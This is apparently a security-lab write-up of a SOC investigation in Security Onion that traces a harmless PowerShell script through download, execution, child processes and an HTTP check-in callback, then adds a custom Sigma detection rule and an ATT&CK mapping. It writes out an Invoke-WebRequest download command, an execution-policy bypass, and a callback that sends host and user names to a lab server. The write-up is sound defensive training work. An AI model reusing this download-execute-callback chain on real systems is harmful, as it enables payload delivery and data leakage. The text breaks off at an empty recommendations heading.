# PowerShell Download, Execution, and HTTP Callback Investigation

## Objective

Detect, investigate, correlate, and document suspicious PowerShell activity using Security Onion, Zeek, Suricata, Elastic Endpoint telemetry, Sigma detections, and MITRE ATT&CK.

The goal of this project is to reproduce a realistic multi-stage PowerShell investigation inside an isolated lab: transfer a controlled PowerShell script to a Windows endpoint, validate the download through network and endpoint telemetry, inspect the file and its hashes, execute the script, reconstruct its process tree and host artifacts, correlate the outbound HTTP callback, identify a detection gap, engineer and validate a new Sigma rule, scope the behavior across the monitored environment, map the activity to MITRE ATT&CK, and document the incident through a Security Onion case.

## Lab Environment

* Windows 10 — target endpoint (`VICTIM`, `192.168.56.105`)
* Kali Linux — controlled HTTP server (`192.168.56.10:8080`)
* Security Onion 3.2.0 — monitoring, hunting, alerting, detection engineering, and case management
* Elastic Endpoint — Windows process, network, and file telemetry
* Zeek — HTTP, connection, and transferred-file telemetry
* Suricata — network IDS alerts
* Sigma — custom behavioral detections
* MITRE ATT&CK — behavior classification
* VirtualBox — isolated lab environment

## Lab Topology

The project was performed entirely inside an isolated VirtualBox lab.



## Scenario

A SOC analyst is investigating suspicious PowerShell activity on the Windows endpoint `VICTIM`.

The observed sequence contains several behaviors that would justify investigation in a real environment:

* PowerShell downloads a `.ps1` script over HTTP
* the script is written to `C:\Users\Public`, a user-writable directory
* the downloaded file is executed through PowerShell
* the execution command line includes a process-scoped execution-policy bypass
* PowerShell launches child processes
* the script creates local files
* PowerShell initiates an outbound HTTP callback
* multiple telemetry sources describe the same activity
* a gap exists between available telemetry and alert coverage

The activity was deliberately generated using a harmless script in a controlled lab. No malware, real command-and-control infrastructure, or production systems were used.

---

## Phase 1 — PowerShell Script Download

### Custom Download Detection

Before the investigation, a custom Sigma rule had been created to detect PowerShell using `Invoke-WebRequest` to retrieve potentially executable or script content over HTTP or HTTPS.

The rule looked for:

* `powershell.exe` or `pwsh.exe`
* `Invoke-WebRequest`
* `http://` or `https://`
* file types including `.ps1`, `.exe`, `.dll`, `.msi`, or `.zip`

The rule was configured as a **High** severity detection.


### Controlled Download

The Windows endpoint retrieved the controlled PowerShell script from the Kali Linux HTTP server.

```powershell
powershell.exe -noprofile -command "Invoke-WebRequest -UseBasicParsing -Uri 'http://download.lab.test:8080/win-update.ps1' -OutFile 'C:\Users\Public\win-update.ps1'"
```



The transfer created the following local file:

```text
C:\Users\Public\win-update.ps1
```

### Security Onion Alerts

The download generated several relevant alerts.

Security Onion displayed:

* the custom high-severity Sigma alert for suspicious PowerShell download activity
* Suricata alerts identifying PowerShell-related HTTP behavior
* an informational alert identifying the Python SimpleHTTP server banner used by the controlled Kali server


The alerting confirmed that the transfer was visible at both the endpoint and network layers.

---

## Phase 2 — Cross-Source Download Investigation

A hunt was performed for traffic from the Windows endpoint to the controlled server:

```text
source.ip:192.168.56.105 AND destination.ip:192.168.56.10 AND destination.port:8080
```

The result set included multiple telemetry sources associated with the same connection:

* `endpoint.events.network`
* `zeek.conn`
* `zeek.http`
* `zeek.file`
* `suricata.alert`


This was important because the activity was not being interpreted from a single log source. Endpoint telemetry showed the initiating PowerShell process, Zeek described the HTTP session and file transfer, and Suricata provided independent IDS visibility.

### Zeek HTTP Evidence

Zeek recorded the HTTP request with:

* source: `192.168.56.105`
* destination: `192.168.56.10`
* destination port: `8080`
* method: `GET`
* URI: `/win-update.ps1`
* HTTP status: `200 OK`
* response length: `709` bytes
* host: `download.lab.test:8080`



The `200 OK` response and non-zero response body confirmed that the endpoint successfully retrieved content from the controlled server.

### Zeek File Analysis

Zeek also created a file event for the HTTP response.

Relevant values included:

| Field | Value |
|---|---|
| File source | HTTP |
| MIME type | `text/plain` |
| Bytes seen | `709` |
| Bytes total | `709` |
| MD5 | `f40aab1dac05efeba7b24d109d8b2a4b` |
| SHA1 | `2c4abda0544336d2a64e49e81e85e9b764934650` |


The file event showed that Zeek observed the full transferred object rather than only the surrounding connection metadata.

---

## Phase 3 — File Verification and Static Analysis

### Hash Verification

The downloaded file was hashed directly on the Windows endpoint.

```powershell
Get-FileHash 'C:\Users\Public\win-update.ps1' -Algorithm MD5
Get-FileHash 'C:\Users\Public\win-update.ps1' -Algorithm SHA1
Get-FileHash 'C:\Users\Public\win-update.ps1' -Algorithm SHA256
```

Observed hashes:

| Algorithm | Hash |
|---|---|
| MD5 | `f40aab1dac05efeba7b24d109d8b2a4b` |
| SHA1 | `2c4abda0544336d2a64e49e81e85e9b764934650` |
| SHA256 | `03dd2f82509e5ece3cde402a2fa5ec47c7d621e27b7ae7fa8a27d16bfbdc28db` |


The locally calculated MD5 and SHA1 values matched the hashes recorded by Zeek. This provided a direct link between the file transferred across the network and the file present on disk.

### Static Payload Review

Before execution, the script contents were reviewed.


The controlled script performed four observable actions:

1. created `C:\Users\Public\soc-lab-execution.txt`
2. recorded the timestamp, current user, hostname, and IPv4 addresses
3. launched `cmd.exe`, which created `C:\Users\Public\soc-lab-child.txt`
4. sent an HTTP request to the controlled Kali server using a `/checkin` URI

The script contained no destructive functionality.

A simplified representation of the behavior is:

```text
win-update.ps1
├── write host information to soc-lab-execution.txt
├── launch cmd.exe
│   └── create soc-lab-child.txt
└── send HTTP GET /checkin?host=VICTIM&user=admin
```

---

## Phase 4 — User-Initiated PowerShell Execution

The downloaded script was then executed by the user from Windows Explorer.

Security Onion endpoint telemetry showed:

* process: `powershell.exe`
* parent process: `explorer.exe`
* host: `victim`
* user: `admin`
* process ID: `10908`
* working directory: `C:\Users\Public\`

The PowerShell command line contained:

```text
Set-ExecutionPolicy -Scope Process Bypass
```

and referenced:

```text
C:\Users\Public\win-update.ps1
```


The parent-child relationship was significant:

```text
explorer.exe
    └── powershell.exe
            └── C:\Users\Public\win-update.ps1
```

This established that the script execution was initiated through the interactive Windows desktop rather than by an unrelated background service.

---

## Phase 5 — Process Tree Investigation

The PowerShell process was used as the pivot point for child-process hunting.

Query used:

```text
event.dataset:endpoint.events.process AND host.name:victim AND process.parent.pid:10908
| table soc_timestamp event.action process.name process.pid process.parent.name process.parent.pid process.command_line user.name
```

Security Onion showed that PowerShell launched:

* `conhost.exe`
* `whoami.exe`
* `cmd.exe`

The `cmd.exe` command line showed the creation of the second-stage marker file:

```text
cmd.exe /c echo SOC-LAB-STAGE-2 > C:\Users\Public\soc-lab-child.txt
```


The reconstructed process tree was:

```text
explorer.exe
    └── powershell.exe
        ├── conhost.exe
        ├── whoami.exe
        └── cmd.exe
            └── creates C:\Users\Public\soc-lab-child.txt
```

This provided endpoint evidence that the script did more than simply launch PowerShell.

---

## Phase 6 — HTTP Callback Investigation

After execution, the PowerShell process initiated a new HTTP connection to the Kali Linux server.

A focused hunt was used to isolate the callback:

```text
event.dataset:zeek.http
AND source.ip:192.168.56.105
AND destination.ip:192.168.56.10
AND destination.port:8080
AND http.uri:*checkin*
```

The observed request was:

```text
GET /checkin?host=VICTIM&user=admin
```

The server returned:

```text
HTTP 200 OK
```



The callback carried only harmless lab metadata, but the pattern was useful because outbound script-driven HTTP activity is a common investigation pivot.

### Cross-Source Callback Correlation

Security Onion showed the same callback through several sources:

* Elastic Endpoint — PowerShell network connection
* Zeek connection telemetry
* Zeek HTTP telemetry
* Zeek file telemetry
* Suricata alerts


The PowerShell network event and the Zeek HTTP request shared the same source, destination, port, and time window, allowing the endpoint process to be tied directly to the network session.

---

## Phase 7 — Host Artifact Validation

The controlled script created two files:

```text
C:\Users\Public\soc-lab-execution.txt
C:\Users\Public\soc-lab-child.txt
```

The execution log contained:

```text
=== SOC LAB CONTROLLED PAYLOAD ===
User: victim\admin
Host: VICTIM
IPv4: 10.0.3.15, 192.168.56.105
```

The child-process marker contained:

```text
SOC-LAB-STAGE-2
```



Endpoint file telemetry independently confirmed creation and modification of these files.

Query used:

```text
event.dataset:endpoint.events.file
AND host.name:victim
AND (file.name:"soc-lab-execution.txt" OR file.name:"soc-lab-child.txt")
| table soc_timestamp event.action file.name file.path process.name process.pid process.parent.name
```


The file telemetry linked:

* `soc-lab-execution.txt` to `powershell.exe`
* `soc-lab-child.txt` to `cmd.exe`

This supported the process-tree findings and provided another independent source of evidence.

---

## Phase 8 — Cross-Source Execution Timeline

A combined hunt was used to place process, file, network, Zeek, and Suricata events into one timeline.

The investigation correlated:

* the original PowerShell process
* child processes
* file creation
* endpoint network activity
* Zeek connection records
* Zeek HTTP records
* Zeek file records
* Suricata alerts


The reconstructed sequence was:

| Time (`+01:00`) | Activity |
|---|---|
| `13:08:52` | `explorer.exe` launched `powershell.exe` to execute `win-update.ps1` |
| `13:08:52` | PowerShell console process activity became visible |
| `13:08:53` | `soc-lab-execution.txt` was created and modified |
| `13:08:53` | `whoami.exe` executed |
| `13:08:53` | PowerShell launched `cmd.exe` |
| `13:08:54` | `cmd.exe` created `soc-lab-child.txt` |
| `13:08:55` | PowerShell connected to `192.168.56.10:8080` |
| `13:08:55` | Zeek recorded the HTTP `/checkin` request |
| `13:08:55` | Suricata generated related network alerts |

The timeline showed that multiple telemetry sources independently described a single coherent chain of activity.

---

## Phase 9 — Detection Gap Analysis

The investigation exposed an important distinction between **visibility** and **detection**.

Security Onion had enough endpoint telemetry to show:

* `powershell.exe`
* the parent process
* the full command line
* `Set-ExecutionPolicy`
* `Scope Process`
* `Bypass`
* execution from `C:\Users\Public\`

However, the initial execution did not produce a dedicated high-severity alert specifically for this behavior.

That meant the behavior was huntable, but it was not yet being surfaced automatically as a detection.

This was treated as a detection-engineering gap.

---

## Phase 10 — Custom Sigma Detection Engineering

A new Sigma detection was created:

**PowerShell Execution Policy Bypass from User-Writable Directory**

The rule was designed to match three conditions together:

1. PowerShell execution
2. process-scoped execution-policy bypass
3. reference to a commonly user-writable directory

Detection logic:

```yaml
logsource:
  category: process_creation
  product: windows

detection:
  selection_image:
    Image|endswith:
      - \powershell.exe
      - \pwsh.exe

  selection_bypass:
    CommandLine|contains|all:
      - Set-ExecutionPolicy
      - Scope Process
      - Bypass

  selection_writable_path:
    CommandLine|contains:
      - \Users\Public\
      - \Downloads\
      - \AppData\Local\Temp\
      - \AppData\Roaming\
      - \Temp\

  condition: selection_image and selection_bypass and selection_writable_path
```

The rule was configured as **High** severity.


This rule is intentionally behavioral. It does not depend on the specific lab filename `win-update.ps1`.

That makes the detection more reusable than a rule tied only to one known test artifact.

### Detection Considerations

This rule was configured as **High severity for controlled lab validation**. In a production environment, the behavior should not be treated as standalone proof of malicious activity.

Process-scoped execution-policy changes and PowerShell execution from user-writable directories can also occur during legitimate administrative or user activity. A production deployment would therefore require tuning and additional context before determining severity.

Useful contextual factors include:

- parent process and execution origin
- user and account context
- script location and provenance
- PowerShell command line
- file hashes and signing state
- preceding download activity
- child-process behavior
- subsequent network connections
- similar activity on other endpoints

The rule is intended to provide a **behavioral investigation signal** that becomes more meaningful when correlated with surrounding endpoint and network telemetry.

---

## Phase 11 — Controlled Detection Validation

After enabling the rule, the controlled script was replayed inside the isolated lab to verify that the detection behaved as intended.

This was a validation step for the custom rule, not additional incident activity.

Security Onion generated the expected high-severity Sigma alert:

**PowerShell Execution Policy Bypass from User-Writable Directory**


A focused hunt for the rule UUID returned matching alert records associated with:

* severity: `high`
* event code: `4688`
* process: `powershell.exe`
* parent: `explorer.exe`
* process ID: `9180`
* the expected PowerShell execution command line



The validation demonstrated that the new detection successfully converted previously hunt-only behavior into alertable behavior.

---

## Phase 12 — Environment-Wide Scoping

After confirming the behavior on `VICTIM`, the investigation was broadened to determine whether the same activity appeared elsewhere.

### Network Scoping

The monitored environment was searched for any other source communicating with the controlled HTTP server:

```text
(source.ip:* AND destination.ip:192.168.56.10 AND destination.port:8080)
AND NOT source.ip:192.168.56.105
| table soc_timestamp event.dataset source.ip source.port destination.ip destination.port http.method http.uri rule.name
```

Result:

```text
Total Found: 0
```



Within the reviewed one-day window, no other observed source contacted `192.168.56.10:8080`.

### Execution-Pattern Scoping

The environment was also searched for the same execution-policy bypass pattern on other endpoints:

```text
event.dataset:endpoint.events.process
AND process.name:powershell.exe
AND process.command_line:*Set-ExecutionPolicy*
AND process.command_line:*Bypass*
AND NOT host.name:victim
| table soc_timestamp host.name user.name process.name process.parent.name process.command_line
```

Result:

```text
Total Found: 0
```



Within the same reviewed one-day window, no other monitored endpoint showed the equivalent PowerShell execution-policy-bypass behavior.

These searches do not prove that the behavior could never exist elsewhere. They show that it was not present in the telemetry and time window reviewed.

---

## MITRE ATT&CK Mapping

### T1105 — Ingress Tool Transfer

The controlled download maps to **T1105 — Ingress Tool Transfer**.

Supporting evidence:

* PowerShell retrieved a script from another system
* the transfer occurred over HTTP
* the destination endpoint wrote the transferred object to disk
* Zeek observed the HTTP request and transferred file
* endpoint telemetry showed the PowerShell download command
* local hash verification matched the file observed by Zeek



The lab did not involve a real adversary-controlled server. The Kali host acted only as controlled infrastructure for reproducing the telemetry pattern.

### T1059.001 — Command and Scripting Interpreter: PowerShell

The execution stage maps to **T1059.001 — Command and Scripting Interpreter: PowerShell**.

Supporting evidence:

* `powershell.exe` executed the downloaded `.ps1` file
* PowerShell executed native utilities such as `whoami.exe`
* PowerShell launched `cmd.exe`
* PowerShell created local artifacts
* PowerShell initiated the outbound HTTP callback
* endpoint process telemetry preserved the command line and parent-child relationships



---

## Incident Timeline

All times below are shown using the Security Onion interface time zone (`+01:00`).

| Time | Event |
|---|---|
| `2026-09-24 15:00:27` | PowerShell requested `/win-update.ps1` from `download.lab.test:8080`. Zeek recorded the HTTP GET and file transfer, and Suricata generated PowerShell/PS1-related alerts. |
| Investigation stage | MD5 and SHA1 values recorded by Zeek were validated against the file on the Windows endpoint. |
| Investigation stage | Static review confirmed that the payload would create local artifacts, launch child processes, and perform an HTTP callback. |
| `2026-09-25 13:08:52` | `explorer.exe` launched `powershell.exe` to execute `C:\Users\Public\win-update.ps1`. |
| `2026-09-25 13:08:53` | PowerShell created `soc-lab-execution.txt` and executed `whoami.exe`. |
| `2026-09-25 13:08:53` | PowerShell launched `cmd.exe`. |
| `2026-09-25 13:08:54` | `cmd.exe` created `soc-lab-child.txt`. |
| `2026-09-25 13:08:55` | PowerShell initiated an HTTP connection to `192.168.56.10:8080`. |
| `2026-09-25 13:08:55` | Zeek recorded `GET /checkin?host=VICTIM&user=admin`, and Suricata generated related network alerts. |
| Detection engineering stage | A gap was identified: the execution-policy-bypass behavior was visible in endpoint telemetry but did not have a dedicated high-severity alert. |
| Validation stage | A custom Sigma rule was created and validated through controlled replay. |
| Scoping stage | No equivalent network connection or PowerShell bypass pattern was identified on other monitored endpoints in the reviewed one-day window. |
| Case-management stage | The investigation was documented, recommendations were recorded, and the Security Onion case was closed. |

---

## Indicators and Observables

| Type | Value | Role |
|---|---|---|
| Endpoint | `VICTIM` | Windows endpoint where the controlled activity executed |
| Endpoint IP | `192.168.56.105` | Source of download and callback traffic |
| Controlled Server | `192.168.56.10` | Kali Linux host serving the script and receiving callback traffic |
| HTTP Port | `8080/TCP` | Controlled HTTP service |
| Domain | `download.lab.test` | Controlled lab hostname |
| Download URL | `http://download.lab.test:8080/win-update.ps1` | Script delivery location |
| Downloaded File | `C:\Users\Public\win-update.ps1` | Controlled PowerShell payload |
| MD5 | `f40aab1dac05efeba7b24d109d8b2a4b` | Downloaded file hash |
| SHA1 | `2c4abda0544336d2a64e49e81e85e9b764934650` | Downloaded file hash |
| SHA256 | `03dd2f82509e5ece3cde402a2fa5ec47c7d621e27b7ae7fa8a27d16bfbdc28db` | Downloaded file hash |
| Initial PowerShell PID | `10908` | Process responsible for controlled script execution |
| Parent Process | `explorer.exe` | User-initiated execution context |
| Child Process | `whoami.exe` | Host/user discovery executed by the script |
| Child Process | `cmd.exe` | Created the second-stage marker file |
| Execution Artifact | `C:\Users\Public\soc-lab-execution.txt` | Local script execution evidence |
| Child Artifact | `C:\Users\Public\soc-lab-child.txt` | Evidence of `cmd.exe` child activity |
| Callback URI | `/checkin?host=VICTIM&user=admin` | Harmless post-execution HTTP callback |
| Validation PowerShell PID | `9180` | Process observed during controlled Sigma validation |
| Custom Sigma UUID | `8c1b74d4-6b8f-4fc4-a62c-3a770b7da551` | Execution-policy-bypass detection |

The indicators above belong to the isolated lab and should not be interpreted as real malicious infrastructure.

---

## Security Onion Case Management

The technical investigation was documented as a formal Security Onion case:

**Suspicious PowerShell Download and Execution with HTTP Callback**

The case summary recorded:

* high-severity suspicious PowerShell script delivery and execution
* HTTP delivery of the script
* user-initiated execution from a user-writable directory
* execution-policy bypass
* child-process activity
* local artifact creation
* outbound HTTP callback
* correlation across Endpoint, Zeek, Suricata, and Sigma telemetry
* environment-wide scoping
* authorized lab disposition



### Case Observables

The case was populated with the principal investigation pivots:

* `192.168.56.105`
* `192.168.56.10`
* `download.lab.test`
* `win-update.ps1`
* SHA256 hash
* download URL


This mirrors real incident-handling practice: key observables are preserved so an analyst can quickly pivot across alerts, hunts, and other evidence.

### Case Timeline

The reconstructed timeline and investigation conclusions were recorded directly inside the case.



### Analyst Recommendations

